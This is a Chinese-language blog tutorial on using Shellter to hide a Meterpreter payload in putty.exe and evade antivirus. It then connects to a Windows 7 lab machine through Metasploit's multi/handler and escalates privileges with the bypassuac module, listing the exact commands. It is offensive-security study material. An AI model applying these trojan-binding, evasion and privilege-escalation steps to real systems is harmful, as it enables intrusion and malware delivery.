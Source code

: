+++
title = 'Metasploit 基础使用 handler 连接 win7 并提权清除日志'
date = 2020-12-11T15:55:33+08:00
draft = true
categories = ["运维"]
tags = ["信息安全","Linux"]
+++
#### 简介

目前根据 [i 春秋][] 进行学习,目前到利用 [shellter][] 进行文件捆绑木马并达到免查杀的效果, 在使用 [metasploit][] 对指定目标机进行监听获取权限.利用打包好的漏洞程序进行提权并清除日志信息.这里我们的步骤是根据这个 [来源][] 学习进行的.
<!-- more -->
-------------------------

#### 操作环境

- kali 2020.4
- shellter 7.2-amd64
  - wine \ wine64 \ wine32
- metasploit  6.0.18-dev
- win 7 企业版
- 注:请特别注意关闭 *win7* 的防火墙,不要说为什么我的没有用连接不上

---------

#### 具体操作

首先下载 [putty.exe][] , 使用 *shellter* 进行木马封装,记住这些我们都是在 *kali* 虚拟机下完成的; *kali 2020.4* 并没有预安装 *shellter* 使用了 `sudo apt-get install shellter` 进行安装, 安装完了之后控制台返回了一个错误信息,希望我们添加 *32* 位的资源并且下载 *wine32* (这里的具体命令我记得并不是很清晰了,请自行看控制台).

安装好了 *shellter* 之后我们在终端输入 `sudo shellter` 会出现一个新的窗口, 这里会出现一些选择 (请参考下图), 目前我了解的 `a` 代表的是 *auto* 自动的意思. 而这里的 `m` 似乎代表的是 *manual*, 这里我们仅说明自动的操作. 选择自动模式后我们输入一个 [绝对路径][] (这里如果没有使用 *root* 权限执行 *shellter* 那么会提示让你权限不足).

![shellter-1][]

我们设置好了文件路径之后,继续输入 `y` 以及英文字母 `l`, 这时候需要选择具体的连接方式

- *Meterpreter_Reverse_TCP*
- *Meterpreter_Reverse_HTTP*
- *Meterpreter_Reverse_HTTPS*
- *Meterpreter_Bind_TCP*
- *Shell_Reverse_TCP*
- *Shell_Bind_Tcp*
- *WinExec*

首先我们说明选项中带有 *Meterperter* 表示支持使用 *Metasploit* 中的模块(推荐,提权之类的需要,漏洞利用); *Shell* 顾名思义就是一个 *shell* 对话框; 这里面还有 *Reverse* 和 *Bind* 这两种模式 **反向连接** 和 **正向连接**, 反向的意思是目标机运行文件之后主动连接我们, 正向是目标运行文件之后开放端口等待我们进行连接. 这里教程选择 *4*, 这里暂不做扩展.

后续输入的 *0.0.0.0* 表示任何 *IP* 都可以访问, *65500* 代表开放的端口等待控制

![shellter-2][]

![shellter-3][]

这里我们需要运行 *Metasploit* 使用指定模块进行目标机的监听

- `msfconsole`
- `use exploit/multi/handler`
- `set payload windows/meterpreter/bind_tcp`
- `show options`
- `set RHOST [IP]`
  - 请替换成你目标机的 *IP*, 不懂的话可以点击 *win7* 系统桌面下角的开始按键, 输入 `cmd` 你会获得一个黑窗口输入 `ipconfig`
- `set LPORT 65500`
  - 这个 *65500* 是根据三方第三张图中 *shellter* 之前设置的

- `exploit`

![msfconsole-1][]

目标机被执行了我们的程序之后我们的监听状态的就会自动连接,但是现在的执行的用户并不总是 *Administrator* 那么我们就需要提权,我们可以先执行 `background` 然后使用 *exploit/windows/local/bypassuac* 这个模板进行提权,源博客 [提权教程博客][].

```shell
meterpreter > background
msf6 exploit(multi/handler) > exploit/windows/local/bypassuac
msf6 exploit(windows/local/bypassuac) > sessions -l#这个会显示当前监听连接的列表以便 exploit/windows/local/bypassuac 的 session 参数赋值
msf6 exploit(windows/local/bypassuac) > set SESSION 1
msf6 exploit(windows/local/bypassuac) > sessions 1
meterpreter > getuid
meterpreter > getsystem
```

![msfconsole-2][]

![msfconsole-3][]





[i 春秋]: https://www.ichunqiu.com/course/58625
[shellter]: https://www.shellterproject.com/download/
[metasploit]: https://baike.baidu.com/item/Metasploit/4926164?fr=aladdin
[来源]: http://codefocus.top/?p=121
[putty.exe]: https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe "这个是官网的下载链接,如果下载网速有问题的请自行寻找资源"
[绝对路径]: https://baike.baidu.com/item/%E7%BB%9D%E5%AF%B9%E8%B7%AF%E5%BE%84/481185?fr=aladdin
[提权教程博客]: http://codefocus.top/?m=201704





[shellter-1]: https://images.ha0zi.com/note/2024/04/27/image-20240427214157637.png
[shellter-2]: https://images.ha0zi.com/note/2024/04/27/image-20240427214034077.png
[shellter-3]: https://images.ha0zi.com/note/2024/04/27/image-20240427213932554.png
[msfconsole-1]:  https://images.ha0zi.com/note/2024/04/27/image-20240427213834790.png
[msfconsole-2]: https://images.ha0zi.com/note/2024/04/27/image-20240427213414117.png
[msfconsole-3]: https://images.ha0zi.com/note/2024/04/27/image-20240427213617060.png
